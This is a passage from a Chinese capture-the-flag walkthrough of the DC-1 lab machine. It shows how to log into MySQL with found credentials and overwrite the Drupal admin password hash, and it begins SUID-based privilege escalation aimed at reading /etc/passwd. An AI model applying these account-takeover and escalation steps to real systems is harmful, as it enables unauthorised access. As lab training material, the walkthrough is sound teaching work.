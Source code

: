 先退出mysql

使用命令

~~~
exit
~~~

~~~
php scripts/password-hash.sh 123 >password.txt
~~~

~~~
cat password.txt
~~~

拿到加密后的密码

~~~
$S$DkN.RoKXZxoV58CBBB6ffl/FcI79v.iXXsAFeAPPwiS6OHvBkBR1
~~~

![image-20211031153331795](DC-1通关手册.assets/image-20211031153331795.png)

接下来拿这行密码去替换mysql中的admin的密码

进入mysql

使用命令

~~~
mysql -udbuser -pR0ck3t
~~~

~~~
use drupaldb;
update users set pass='$S$DkN.RoKXZxoV58CBBB6ffl/FcI79v.iXXsAFeAPPwiS6OHvBkBR1' where uid=1;
~~~

重新再查一下发现修改成功![image-20211031153742026](DC-1通关手册.assets/image-20211031153742026.png)

尝试用这个用户登录

![image-20211031153846492](DC-1通关手册.assets/image-20211031153846492.png)

登陆成功，此时相当于拿到网页后台权限。按照一般的渗透流程，可以考虑先拿webshell，再拿真正主机的shell，此处由于靶机设计原因情况比较特殊，但无论如何渗透思路多种多样，只要拿到权限就是成功。

![image-20211031154036356](DC-1通关手册.assets/image-20211031154036356.png)

随便点一点发现此处存在flag3

![image-20211031154146140](DC-1通关手册.assets/image-20211031154146140.png)

### 提权

根据flag3中提到的关键词 perms find passwd -exec ，无论是正常的渗透测试流程，还是此处给出的提示，都在指引我们走向提权。

此处flag提示的意义在于，它想让我们去读取/etc/passwd，但事实上这个文件需要root权限才能读取，而我们只是一般的普通用户权限，故此处考虑提权。

提权的方式有很多，此处根据靶场设计来提权，由于提示了perm，则考虑使用具有suid的命令来提权
